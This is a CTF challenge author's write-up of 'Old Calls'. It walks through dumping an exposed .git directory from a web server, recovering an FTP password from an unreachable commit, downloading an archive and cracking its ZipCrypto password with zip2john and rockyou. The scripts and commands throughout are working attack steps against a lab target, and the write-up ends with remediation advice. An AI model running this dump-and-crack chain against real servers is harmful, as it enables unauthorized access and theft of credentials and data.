

+++
title = "Old Calls Misc Challenge I Wrote| CAT CTF 26 Quals"
date = "2026-09-26"
tags = ["CTF", "Misc", "Git-Forensics", "FTP", "Easy"]
description = "How I built Old Calls: a scrubbed-but-exposed .git leaks its real FTP password through an unreachable commit that only git fsck finds, the evidence archive must be pulled in binary mode, and the ZipCrypto inside it cracks with rockyou."
draft = false
+++

Hey security folks, The challenge that wasn't solved by codex until some hours later I built, **Old Calls** challenge which the name is the whole idea. There are two old calls in this challenge and both of them still answer. There is an **old commit** that is not on any branch anymore but is still sitting in the object database, callable by anyone who asks the right git question. And there is an **old backup service account** that was supposed to be decommissioned and still has full read access to a customer restore drop. The reachable history hands you two credentials that do not work, on purpose.



You only given an IP, The target is a backup-operations box, Two services are exposed:

```text
21/tcp    vsftpd 3.0.3     the evidence archive
8080/tcp  nginx 1.31.5     the marketing site
```

The web root is a static site (`index.html`, `about.html`, `changelog.html`, `careers.html`, `admin/`), and the FTP root is the evidence vault: `clients/`, `manifests/`, `logs/`, `reports/`, `archive/`. The flag is inside a client evidence archive that we aren't supposed to be able to reach.

**The intended chain is:**

1. Find the exposed `.git` directory on `8080` and pull `HEAD` / `refs/heads/master`.
2. Walk the `parent` chain and read every version of `config.py`, the two visible credentials are both decoys (one wrong password, one decommissioned host).
3. Find that `.git/ORIG_HEAD` and `.git/logs/` have been scrubbed, so the easy breadcrumbs are gone.
4. Dump `.git/objects/`, then let git tell you what is unreachable: `git fsck --unreachable --no-reflogs` → one commit, one tree, one blob that belong to no ref.
5. Read the unreachable commit `f47e6434` and its `config.py` blob, that is where the working FTP password lives.
6. Log into FTP as `svc_backup`, walk the shares, and find `clients/harbor-logistics/evidence/flag.dat` with a manifest telling you the exact size and SHA-256.
7. Pull it in **binary** mode. ASCII mode silently rewrites bytes and the archive stops being a valid ZIP.
8. Crack the ZipCrypto with `zip2john` + rockyou, extract, done.


# Confirm the Two Ports

```bash
nmap -sV -p 21,8080 16.16.115.58
```

```text
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
8080/tcp open  http    nginx 1.31.5
```

ICMP is filtered, which is normal for the box and irrelevant — TCP is what we need. The web side is a static site, so the first thing I check is always the same two paths:

```bash
curl -s http://16.16.115.58:8080/robots.txt
curl -s http://16.16.115.58:8080/.git/HEAD
```

```text
User-agent: *
Disallow: /admin/

ref: refs/heads/master
```

`robots.txt` is a nudge toward `/admin/`, but `/admin/` is a dead end on purpose — it is a real login form that accepts nothing. The `.git/HEAD` response is the actual gift.

# Step 1 - The Repository Is Served Verbatim

nginx is handing out the repository directory as static files, so every loose object is one HTTP GET away:

```bash
curl -s http://16.16.115.58:8080/.git/config
```

```ini
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	email = dev@vaultline.example
	name = vaultline-dev
```

```bash
curl -s http://16.16.115.58:8080/.git/refs/heads/master
# 4cd97caaf3906bef4e7984d38dc056d695e847d7

curl -s http://16.16.115.58:8080/.git/COMMIT_EDITMSG
# remove legacy config from web root
```

**What does this mean?** A loose Git object is just zlib-deflated text at `objects/<first 2 hex>/<remaining 38 hex>`, and the header names its own type. So I do not need a clone — I can decompress objects one at a time and rebuild the history by hand.

<!-- SCREENSHOT 02: Take a screenshot of a terminal showing the .git/config + refs/heads/master + COMMIT_EDITMSG curls and their output. Save as images/02-git-exposure.png and uncomment below. -->
<!--  -->

```python
import urllib.request
import zlib

BASE = "http://16.16.115.58:8080/.git"


def read_object(sha: str) -> bytes:
    url = f"{BASE}/objects/{sha[:2]}/{sha[2:]}"
    return zlib.decompress(urllib.request.urlopen(url).read())
```

# Step 2 - Walk the Parent Chain and Collect Every config.py

Every commit names its parent, so the whole graph is reachable by following one header:

```python
def read_commit(sha: str):
    raw = read_object(sha).decode("utf-8", "replace")
    head, _, message = raw.partition("\n\n")
    fields = dict(
        line.split(" ", 1) for line in head.splitlines() if " " in line
    )
    return fields, message.strip()


def walk(sha: str):
    while sha:
        fields, message = read_commit(sha)
        print(sha[:8], "-", message.splitlines()[0])
        sha = fields.get("parent")
```

```text
4cd97caa - remove legacy config from web root
d3f9a1fb - add careers notes
5b62f5c3 - update changelog
0050459e - cleanup: point at legacy host, ignore for now
94a3c476 - wire up test creds for local dev, will rotate before staging
4814ae99 - initial site + backup sync scaffold
```

Six commits, one linear chain. The interesting file is `config.py` at the root of each tree, and the history tells a little story:

| Commit | `config.py` blob | What it says |
|---|---|---|
| `4814ae99` | `60b68118` | `STORAGE_USER = "changeme"` / `changeme` |
| `94a3c476` | `a6e9b133` | `svc_backup` / `TestPass2024!` on `10.10.10.5` |
| `0050459e` | `d1ef463d` | same password, `STORAGE_HOST` moved to `10.10.10.99` (decommissioned) |
| `5b62f5c3` | `d1ef463d` | unchanged |
| `d3f9a1fb` | `d1ef463d` | unchanged |
| `4cd97caa` | *(deleted)* | "remove legacy config from web root" |

The newest commit deletes the file, which is exactly the "they cleaned it up" story I want players to accept. So the only credentials on display are these two:

```python
# a6e9b133... — "wire up test creds for local dev, will rotate before staging"
STORAGE_HOST = "10.10.10.5"
STORAGE_USER = "svc_backup"
STORAGE_PASS = "TestPass2024!"

# d1ef463d... — "cleanup: point at legacy host, ignore for now"
STORAGE_HOST = "10.10.10.99"
STORAGE_USER = "svc_backup"
STORAGE_PASS = "TestPass2024!"
```

And neither one gets you anywhere:

```bash
curl -v --user 'svc_backup:TestPass2024!' ftp://16.16.115.58/
# 530 Login incorrect.
```

**These are two decoys, and both are deliberate.** The first one punishes *"grab the first credential-shaped string you find"* — the commit even says *"will rotate before staging"*, so it reads like a dead password, and it is. The second one is subtler: same password, same user, only the host moved to `10.10.10.99`, a box that was decommissioned. If a player only ever checks *"is this string a plausible secret?"* and never *"does this lead actually connect?"*, they will happily build their whole plan around `10.10.10.99` and go nowhere. I wanted two decoys of different shapes on purpose — one fails on authentication, one fails on relevance.

# Step 3 - The Old Call: An Unreachable Commit

Here is the part the challenge is actually about. The last thing the "developer" did was commit a real credential and then immediately undo the commit:

```bash
git commit -am "temp creds for staging push, will fix before merging to main"
git reset --hard HEAD~1
```

The commit is gone from every branch. And before publishing, I scrubbed the two breadcrumbs that would make this a one-command exercise:

```bash
curl -s -o /dev/null -w "%{http_code}\n" http://16.16.115.58:8080/.git/ORIG_HEAD
# 404
curl -s -o /dev/null -w "%{http_code}\n" http://16.16.115.58:8080/.git/logs/HEAD
# 404
```

`ORIG_HEAD` and the reflog are exactly what `git reset` writes to, and they are the documented way people recover "lost" commits — so removing them forces a real forensics step instead of a memorized one. The objects themselves were never pruned (`git gc` was never run), and **nginx is serving the object directory with `autoindex on`**:

```bash
curl -s http://16.16.115.58:8080/.git/objects/
```

```text
00/ 05/ 08/ 09/ 10/ 23/ 28/ 2a/ 48/ 4c/ 5b/ 60/ 74/ 79/ 7e/ 90/
94/ 9a/ a1/ a6/ b7/ bd/ c0/ c1/ c4/ c7/ cb/ d1/ d3/ dd/ ee/ f4/ fd/
```

Thirty-three fanout directories, and inside them every object is listed by name. You can mirror the whole object database locally in a handful of lines — this is the enumeration step, and it works because `autoindex` hands you the directory names instead of a 403:

At this point you have every object but no git to reason about them. Two ways forward, and the first one is the intended path: **save the objects into a real repository and let git tell you what is unreachable.**

```bash
base_url="http://16.16.115.58:8080/.git"
mkdir -p .git/objects .git/refs/heads
curl -s "$base_url/HEAD"          -o .git/HEAD
curl -s "$base_url/config"        -o .git/config
curl -s "$base_url/refs/heads/master" -o .git/refs/heads/master

for obj_dir in $(curl -sS "$base_url/objects/" | grep -oE 'href="[0-9a-f]{2}/"' | cut -d'"' -f2); do
  mkdir -p ".git/objects/${obj_dir%/}"
  for obj_file in $(curl -sS "$base_url/objects/$obj_dir" | grep -oE 'href="[0-9a-f]{38}"' | cut -d'"' -f2); do
    curl -sS -o ".git/objects/$obj_dir$obj_file" "$base_url/objects/$obj_dir$obj_file"
  done
done
```

That gives you a browsable repository offline — `git log --all`, `git show`, `git cat-file` all work — and the enumeration question gets answered by git instead of by a hand-rolled object parser.

Now let git do the forensics:

```bash
git fsck --unreachable --no-reflogs
```

```text
unreachable commit f47e64348d1e284eee7df99995f4cfb280948059
unreachable tree   2affb11f93d3511b9a074e29c7a85393101d6780
unreachable blob   eed940669de9d63278935578d895d6333fcaeee1
```

`--no-reflogs` matters conceptually even though I deleted the reflogs: it tells git to judge reachability from refs only, which is the question we are actually asking. Thirty-four objects, thirty-one reachable from `master`, three orphans.

<!-- SCREENSHOT 03: Take a screenshot of the terminal showing the object dump loop and `git fsck --unreachable --no-reflogs` reporting the commit, tree, and blob. Save as images/03-fsck.png and uncomment below. -->
<!--  -->

If you would rather stay in HTTP-only land, the same answer falls out of arithmetic: reconstruct the reachable set (every commit, its tree, every blob that tree points at), diff it against what the directory listing offered, and the leftovers are the interesting part. Git just does that bookkeeping for you, which is why the lab is solvable without writing an object parser.

The commit reads exactly like a developer who was in a hurry:

```bash
git show --stat f47e6434
git cat-file -p f47e6434
```

```text
commit 283 tree 2affb11f93d3511b9a074e29c7a85393101d6780
parent 0050459e4438198d1839c410656a125db1721891
author vaultline-dev <dev@vaultline.example>

temp creds for staging push, will fix before merging to main
```

It is a sibling of `94a3c476` — both branch off `0050459e`, and this one was reset away before it ever shipped. Its tree is identical to the `0050459e` tree except for one entry:

```text
config.py  ->  eed940669de9d63278935578d895d6333fcaeee1
```

```python
# VaultLine internal backup sync config
STORAGE_HOST = "10.10.10.44"
STORAGE_PORT = 21
STORAGE_USER = "svc_backup"
STORAGE_PASS = "Bkp_9!vLx2Qz"
```

**What does this mean?** A `git reset` does not delete objects, it moves refs. `git log --all` cannot see this commit — no ref points at it — the reflog that would have recorded the move is gone, and a fresh `git clone` would never even transfer it, because a clone ships only objects reachable from advertised refs. The single thing that still exposes it is **a web server with directory listing turned on**. `autoindex` is a debugging convenience that turns a repository into a browsable object database, and "we removed it from the history" is not a control while the bytes are still being served.

# Step 4 - FTP: EPSV, Not PASV

```bash
curl -v --user 'svc_backup:Bkp_9!vLx2Qz' ftp://16.16.115.58/
```

```text
< 220 (vsFTPd 3.0.3)
> USER svc_backup
< 331 Please specify the password.
> PASS Bkp_9!vLx2Qz
< 230 Login successful.
> PWD
< 257 "/" is the current directory
> EPSV
< 229 Entering Extended Passive Mode (|||30002|)
> TYPE A
> LIST
< 226 Directory send OK.
-rw-rw-r--  README.txt
drwxrwxr-x  archive/
drwxrwxr-x  clients/
drwxrwxr-x  logs/
drwxrwxr-x  manifests/
drwxrwxr-x  reports/
```

One practical note I built in on purpose: `PASV` returns an address that is unroutable from the player's side, so Python's `ftplib` hangs on `LIST` until timeout, while `EPSV` (which curl and `lftp` use) works fine on the high ports. If your directory listing freezes, that is the first thing to check — it is a mode problem, not a credential problem.

The shares tell the story of a nightly evidence sync:

```bash
for d in archive clients logs manifests reports; do
  curl -s --user 'svc_backup:Bkp_9!vLx2Qz' ftp://16.16.115.58/$d/
done
```

`logs/sync-2026-09-07.log`:

```text
harbor-logistics evidence archive uploaded: clients/harbor-logistics/evidence/flag.dat
archive checksum recorded; binary transfer required
```

`manifests/2026-09-07.snapshot`:

```yaml
files:
  clients/harbor-logistics/evidence/flag.dat:
    bytes: 568
    sha256: 17a8e68adef71429aa87300dda20b752e3bf44d402861fdd25c62d77fbdef743
```

`reports/monthly-restore-summary.csv` maps the client `harbor-logistics` to that same path, and every `clients/*/restore-notes.txt` says some version of *"if extraction fails, compare the size against the manifest and re-transfer as binary"*. Three separate places in the FTP tree telling the player the same thing is the hint, and the flag file is a client artifact — Harbor Logistics — not a VaultLine secret.

# Step 5 - TYPE I or the Archive Is Dead

```bash
curl -v --user 'svc_backup:Bkp_9!vLx2Qz' \
  ftp://16.16.115.58/clients/harbor-logistics/evidence/flag.dat \
  -o flag.dat
```

```text
> TYPE I
< 200 Switching to Binary mode.
> RETR flag.dat
< 150 Opening BINARY mode (568 bytes)
< 226 Transfer complete.
```

Verify before you trust it:

```bash
wc -c flag.dat
# 568 flag.dat
sha256sum flag.dat
# 17a8e68adef71429aa87300dda20b752e3bf44d402861fdd25c62d77fbdef743  flag.dat
file flag.dat
# flag.dat: Zip archive data
```

**What does this mean?** In ASCII mode the server translates line endings, so any `0x0A` byte in the file becomes `0x0D 0A` on the wire. A ZIP is full of structural bytes at arbitrary offsets, and the moment a `PK\x03\x04` local header, a compressed stream, or a central-directory entry gets two extra bytes injected, the offsets stop lining up and every tool reports a corrupt archive. curl already does `TYPE I` for you on `RETR`, so the trap only fires when a player forces `--use-ascii`, hand-rolls a socket, or uses a client that defaults to `TYPE A`. The manifest exists so the failure is diagnosable: wrong size, wrong SHA-256, re-transfer as binary.

# Step 6 - ZipCrypto Is Not Encryption

```bash
7z l -slt flag.dat | grep -E "Path|Size|Method|Encrypted"
```

```text
Path = manifest_crlf.txt
Size = 162
Method = ZipCrypto Deflate
Encrypted = +
Path = flag.txt
Size = 47
Method = ZipCrypto Store
Encrypted = +
```

ZipCrypto is a 1994 stream cipher with a known-plaintext weakness, and its key check is stored in the file, so offline cracking is instant:

```bash
zip2john flag.dat > flag.zip
john --wordlist=/usr/share/wordlists/rockyou.txt flag.zip
john --show flag.zip
```

```text
flag.dat:letmein::...
```

The FTP password is not reused here on purpose — reusing `Bkp_9!vLx2Qz` would have made the archive a two-credential challenge instead of a three-step one. And note `flag.txt` is **Stored**, not deflated, which means its 47 bytes are the plaintext under the encryption: a `bkcrack` known-plaintext attack would also recover the key if no wordlist were available.

```bash
7z x -pletmein flag.dat -oflagout
cat flagout/flag.txt
```

Our Flag is:

```text
CATF{g1t_d4ngl1ng_c0mm1ts_ftp_typ3_a_z1p2j0hn}
```

And the second file, the one that justifies the archive name `manifest_crlf.txt`:

```text
VaultLine Evidence Export
Client: Harbor Logistics
Snapshot: vl-2026-09-07-0942
Artifact: flag.dat
Transfer warning: this archive must be handled as binary data.
```

# The Full Chain, End to End

```bash
# 1. both services
nmap -sV -p 21,8080 16.16.115.58

# 2. the repository is public, and the easy breadcrumbs are not
curl -s http://16.16.115.58:8080/.git/HEAD
curl -s http://16.16.115.58:8080/.git/refs/heads/master
curl -s -o /dev/null -w "%{http_code}\n" http://16.16.115.58:8080/.git/ORIG_HEAD   # 404

# 3. dump every loose object, then let git find the unreachable ones
base_url="http://16.16.115.58:8080/.git"
mkdir -p .git/objects .git/refs/heads
curl -s "$base_url/HEAD" -o .git/HEAD
curl -s "$base_url/config" -o .git/config
curl -s "$base_url/refs/heads/master" -o .git/refs/heads/master
for d in $(curl -sS "$base_url/objects/" | grep -oE 'href="[0-9a-f]{2}/"' | cut -d'"' -f2); do
  mkdir -p ".git/objects/${d%/}"
  for o in $(curl -sS "$base_url/objects/$d" | grep -oE 'href="[0-9a-f]{38}"' | cut -d'"' -f2); do
    curl -sS -o ".git/objects/$d$o" "$base_url/objects/$d$o"
  done
done
git fsck --unreachable --no-reflogs
# unreachable commit f47e6434...

# 4. the old call answers
git show f47e6434:config.py
# STORAGE_USER = "svc_backup" / STORAGE_PASS = "Bkp_9!vLx2Qz"

# 5. the evidence, in binary
curl -s --user 'svc_backup:Bkp_9!vLx2Qz' \
  ftp://16.16.115.58/clients/harbor-logistics/evidence/flag.dat -o flag.dat
sha256sum flag.dat   # 17a8e68a...  568 bytes

# 6. the archive
zip2john flag.dat > flag.zip && john --wordlist=/usr/share/wordlists/rockyou.txt flag.zip
7z x -pletmein flag.dat -oflagout && cat flagout/flag.txt
```

**JUST READ IT AND DONE — that's my intended path.**

# Design Notes

A few things I deliberately built in, and why:

- **Two decoys of different shapes.** One fails on authentication (`TestPass2024!`), one fails on relevance (`10.10.10.99`, decommissioned). A player who grabs the first secret-shaped string and a player who never checks whether the host answers both get stuck, just for different reasons.
- **`ORIG_HEAD` and `logs/` scrubbed on purpose.** `cat .git/ORIG_HEAD` is the heavily-documented way to recover a reset commit. Removing it means the player has to reach for `git fsck --unreachable --no-reflogs`, which is a real (if learnable) forensics step instead of one memorized command.
- **No narrative hinting.** `about.html` and `changelog.html` say nothing about git, deployments, or infrastructure. An AI assistant that only reads the site copy gets zero signal — discovery has to come from enumerating the live target.
- **`robots.txt` disallows `/admin/`**, and `/admin/` is a real login form that goes nowhere. It burns scanner attention and teaches that a `Disallow` rule is not a security boundary. It is *not* a pointer toward the git leak.
- **FTP rate limiting** (`max_per_ip=2`, `max_clients=10`, plus a drop-in fail2ban filter). This is the lever against blind credential spraying, human or automated: it never blocks a correct guess, it just makes "try everything" measurably worse than "reason first."
- **Scaling out.** One `docker compose up --build` is one team. For a real competition, build one stack per team with a different `FTP_PASS` build-arg and re-run the `gitbuild/` sequence so each team gets its own dangling commit — otherwise credentials leak between teams and the flag falls to whoever sprays first.
- **Difficulty knobs.** Easier: leave `.git/ORIG_HEAD` in place. Harder: run `git gc` after the reset so the blob lands in a packfile and recovery needs `git verify-pack` / `git cat-file --batch-all-objects` instead of a single `fsck`. Harder finale: pick a less common rockyou password, or split the archive password across two files.

# The Takeaway

Three lessons, one per service, and none of them need a vulnerable application:

- **`.git` in a web root is a full credential dump, and "we removed it from the history" is not a fix.** A `git reset` only moves refs. The commit, its tree, and its blob sit in `.git/objects` until something prunes them (`git gc --prune=now`), and a web server with `autoindex on` will hand the whole object database to anyone who asks. `git fsck --unreachable --no-reflogs` is the command that finds it, so assume it is the first thing an attacker runs. If a secret was ever committed — *even into a commit you threw away* — rotate it.
- **A public-facing directory listing is a disclosure primitive.** The reason this challenge is solvable at all is one nginx directive. `autoindex off` plus `location ~ /\.git { deny all; }` would have killed it before the FTP server ever mattered.
- **Binary transfers need a verifiable contract.** If your product ships "download the archive" flows, the manifest should carry size and checksum so a client can tell *transport corruption* apart from *bad password*. FTP's `TYPE A` is a footgun that is one flag away in every client in existence, and vsftpd ships with ASCII downloads enabled by default.

The decoys are the pedagogical core, by the way. **The credentials a human finds first in a repository are the credentials a human is meant to find.** One of mine fails on authentication, the other fails on relevance, and both look completely legitimate in a diff. Always verify that a lead *connects* before you build on it — and always enumerate what the server is willing to show you that `git log` is not.

Happy Hacking :)
